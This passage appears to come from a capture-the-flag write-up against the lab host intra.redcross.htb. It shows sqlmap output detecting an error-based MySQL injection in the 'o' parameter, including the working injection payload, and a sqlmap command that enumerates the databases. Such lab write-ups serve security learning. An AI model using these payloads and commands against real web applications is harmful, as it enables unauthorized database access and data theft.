 ```
[13:02:14] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[13:03:11] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[13:04:08] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[13:05:04] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[13:06:01] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:06:20] [INFO] GET parameter 'o' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[13:06:20] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[13:06:20] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[13:06:20] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[13:06:42] [INFO] target URL appears to be UNION injectable with 4 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
[14:12:39] [INFO] testing 'MySQL UNION query (63) - 21 to 40 columns'
[14:13:03] [INFO] testing 'MySQL UNION query (63) - 41 to 60 columns'
[14:13:28] [INFO] testing 'MySQL UNION query (63) - 61 to 80 columns'
[14:13:53] [INFO] testing 'MySQL UNION query (63) - 81 to 100 columns'
[14:14:19] [WARNING] parameter length constraining mechanism detected (e.g. Suhosin patch). Potential problems in enumeration phase can be expected
GET parameter 'o' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 469 HTTP(s) requests:
---
Parameter: o (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: o=2') AND (SELECT 6000 FROM(SELECT COUNT(*),CONCAT(0x71717a7671,(SELECT (ELT(6000=6000,1))),0x716a767871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- scxH&page=app
---
[14:33:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0
[14:33:52] [INFO] fetched data logged to text files under '/root/.sqlmap/output/intra.redcross.htb'

[*] shutting down at 14:33:52
```

Listing databases: `sqlmap -r login.req --risk=3 -p o --dbms=mysql --random-agent --delay=1.0 --technique=UE -T users --dbs`

```
[14:38:26] [INFO] used SQL query returns 2 entries
[14:38:27] [INFO] retrieved: information_schema
[14:38:28] [INFO] retrieved: redcross
available databases [2]:
[*] information_schema
[*] redcross
```
